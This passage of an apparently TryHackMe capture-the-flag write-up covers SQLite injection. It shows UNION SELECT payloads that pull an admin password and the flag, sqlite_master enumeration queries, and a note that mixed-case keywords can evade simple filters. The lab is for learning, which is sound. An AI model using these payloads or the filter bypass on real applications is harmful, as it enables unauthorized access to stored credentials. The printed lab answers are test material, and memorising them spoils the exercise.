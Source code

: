 ```sql
' Union Select password FROM admintable WHERE username='TryHackMeAdmin' OR '=
```

_**Response**_ _**3.5**_:

`Password: mamZtAuMlrsEy5bp6q17`

To answer question 2 "_What is the password to the username mentioned in question 1?_": `mamZtAuMlrsEy5bp6q17`



_**Query 3.6 (Answer to qn 3)**_

<pre class="language-sql"><code class="lang-sql"><strong>' Union Select password FROM admintable '=
</strong></code></pre>

_**Response**_ _**3.6**_:

`Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

To answer question 3 "_What is the flag?_": `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`



### (4) Other queries to understand the concept of `sqlite_master` schema table

_**Query 4.1**_

```sql
' UNion Select sql FROM sqlite_master where type='table' OR '=
```

* Returns the same response as query 3.3 above

_**Query 4.2**_

Returns the same response as query 3.1 above

```sql
' UNion Select tbl_name FROM sqlite_master where type='table' OR '=
```



### Conclusion

From the results, I have learnt that SQLite accepts variations of SQL keywords. This includes the following (non-exhaustive): `Union`, `uNion`, `unIon`, `uniOn`, `UNion`, etc., which are treated as valid commands.&#x20;

This is because SQLite follows the SQL standard, which states that keywords are case-insensitive. However, this only applies to keywords, not to identifiers like table names (unless quoted). This can allow  attackers to bypass simple SQL injection filters that relies on specific standard keyword filters such as "_UNION_", "_union_", etc.



{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md" %}

{% embed url="https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#FindColumnsHavingGroupbyErrorBased" %}

{% embed url="https://www.tutlane.com/tutorial/sqlite/sqlite-injection-attacks" %}
